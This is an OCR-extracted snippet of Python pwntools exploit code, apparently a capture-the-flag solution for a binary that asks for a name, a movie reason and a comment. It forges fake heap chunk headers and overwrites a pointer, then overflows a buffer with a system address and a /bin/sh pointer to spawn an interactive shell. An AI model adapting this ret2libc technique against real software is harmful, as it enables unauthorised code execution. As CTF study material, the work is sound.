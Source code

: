     # age = 
    # 0x45 = 60 for usrdata 4 for presize 4for size and one for preinuse  update : 0x41 for the result of debug
>>
    reason = p32(0) + p32(0x41) + 'a' * 56 + p32(0) + p32(0x41)
    fake_address = ebp - 0x68
    print 'fakeaddress -> ' + hex(fake_address)
    raw_input()
    comt = 'a' * 80 + '1234' + p32(fake_address) + p32(0) + p32(0x41) #  + 'a' * 14
    # enter('a' * 60, 0x11223344, reason, comt)
    # raw_input()
    #由于程序自身缺陷，按照正常的输入顺序导致站结构被破坏，不得不根据调试过程中程序的运行流程，去掉对age的输入。
    io.sendafter('name: ', "a" * 60)
    io.sendafter('movie? ', reason)
    io.sendafter('comment: ', comt)
>>
    # cover the ret address and the argvs
    io.sendafter('y/n>: ', 'y')
    print "cover the ret address and the argvs"
    sleep(0.5)
>>
    payload = 'a' * 76 + p32(sys_addr) + 'abcd' + p32(binsh)
    # enter(payload, 0, 'bless', 'god bless me!')
    # raw_input()
    io.sendafter('name: ', payload)
    io.sendafter('movie? ', 'god bless me!')
    io.sendafter('comment: ', 'this is the comment!')
>>
    io.sendafter('<y/n>: ','n')
    io.interactive()
    io.close()
>
>
>